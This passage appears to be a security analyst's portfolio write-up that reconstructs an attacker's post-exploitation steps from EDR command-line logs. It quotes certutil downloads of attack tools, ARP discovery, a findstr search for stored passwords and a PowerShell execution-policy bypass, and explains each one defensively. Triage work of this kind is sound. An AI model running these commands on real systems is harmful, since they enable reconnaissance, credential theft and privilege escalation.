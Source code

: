 ### 2. Deconstructing the Attack Chain via Endpoint Logs

The EDR's command-line history provides a clear, step-by-step narrative of the attacker's post-exploitation activities.

**Stage 1: Downloading the Attacker Toolkit**
The attacker used `certutil.exe` twice to download their tools.
1.  **Nmap (Network Scanner):**
    *   **Command:** `certutil.exe -urlcache -split -f https://nmap.org/dist/nmap-7.92-setup.exe nmap.zip`
    *   **Purpose:** The attacker downloaded Nmap, a powerful network scanner, to perform reconnaissance on the internal network, discover live hosts, and identify open ports and services.
    <img width="1080" height="314" alt="image" src="https://github.com/user-attachments/assets/bd7fd5e8-d3d9-4c5d-b104-5c7c470cfff6" />

2.  **Windows-Exploit-Suggester (Privilege Escalation Tool):**
    *   **Command:** `certutil.exe -urlcache -split -f https://raw.githubusercontent.com/AonCyberLabs/Windows-Exploit-Suggester/master/windows-exploit-suggester.py check.py`
    *   **Purpose:** This Python script is a popular tool that compares a system's patch level against a database of known vulnerabilities to find missing patches that could be exploited for local privilege escalation. This is a clear indicator that the attacker is trying to elevate from a standard user to Administrator or SYSTEM.
    <img width="927" height="251" alt="image" src="https://github.com/user-attachments/assets/828d4d31-1135-4898-ae57-2a5c70e131a5" />

**Stage 2: Reconnaissance and Preparation**
After downloading their tools, the attacker began executing commands.
<img width="1326" height="290" alt="image" src="https://github.com/user-attachments/assets/48defb89-ce8f-4482-b3b9-4e0a39229dd2" />
1.  **Execute Exploit Suggester:** `python check.py` - The attacker ran the script they just downloaded to find a path to escalate their privileges.
2.  **Network Discovery:** `arp -a` - The attacker ran the `arp` command to view the local ARP cache, which gives them a list of other IP addresses on the same subnet that the host has recently communicated with.
3.  **Credential Hunting:** `findstr /si pass *.txt | *.xml| *.ini` - This command recursively searches (`/si`) through all `.txt`, `.xml`, and `.ini` files for the string "pass" (as in, password). This is an automated way to find credentials that might be carelessly stored in configuration files or text documents.
4.  **Evasion/Preparation:** `C:/powershell.exe -nop -exec bypass` - The attacker ran this command to start a PowerShell session with the `-ExecutionPolicy Bypass` flag. This disables security controls that prevent the execution of unsigned PowerShell scripts, setting the stage for them to run more complex malicious scripts later.

### 3. Confirmation of Success

The `EDR Action: Allowed` status in the initial alert, combined with the sequence of commands seen in the endpoint logs, confirms that the entire attack chain was successful. The attacker was not blocked at any stage.

## Skills and Tools Utilized

*   **Tools Used:** SIEM, EDR
*   **Skills Demonstrated:** LOLBin Analysis (Certutil), Post-Exploitation Triage, TTP Recognition (Reconnaissance, Credential Hunting, Privilege Escalation), Windows and PowerShell Command Line Analysis, Attack Chain Reconstruction.
